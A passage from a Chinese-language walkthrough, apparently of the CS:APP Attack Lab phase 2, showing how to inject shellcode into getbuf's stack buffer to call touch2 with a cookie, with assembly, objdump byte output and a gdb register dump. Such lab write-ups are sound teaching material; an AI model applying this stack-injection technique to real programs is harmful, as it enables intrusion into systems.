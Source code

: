 我们在这一阶段需要做的便是利用`getbuf`调用`touch2`，但不同的是这次我们需要传递一个参数`val`。得到函数地址为0x00000000004017ec。

而函数的第一个参数储存在寄存器`%rdi`中，因此我们需要先将cookie值（此处为0x59b997fa）传到`%rdi`中，再调用`touch2`，汇编代码看起来是这样的：

```assembly
movq	$0x59b997fa,%rdi
call	touch2			
```

但根据要求不使用`call`和`jmp`指令，所以我们用`ret`指令来代替。

```assembly
movq	$0x59b997fa,%rdi
pushq	$0x4017ec	
retq
```

将这段代码进行汇编，再反汇编为字节码：

```bash
gcc -c level2.s
objdump -d level2.o > level2.byte
```

得到字节码：

```assembly
level2.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret    
```

我们便得到了注入的字节码，这些字节码会随着读取操作而进入数组`buf`中。下一步便是让程序计数器`%rip`跳转到`buf`的起始位置执行注入的代码，因此我们需要确定缓冲区的起始位置。这里我们实际跑一下代码，等待缓冲区设定完成后检查`%rsp`得到缓冲区起始位置：

```assembly
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
=> 0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    ret
End of assembler dump.
(gdb) info registers
rax            0x0                 0
rbx            0x55586000          1431855104
rcx            0x0                 0
rdx            0x5561dcc0          1432476864
rsi            0xf4                244
rdi            0x55685fd0          1432903632
rbp            0x55685fe8          0x55685fe8
rsp            0x5561dc78          0x5561dc78
```
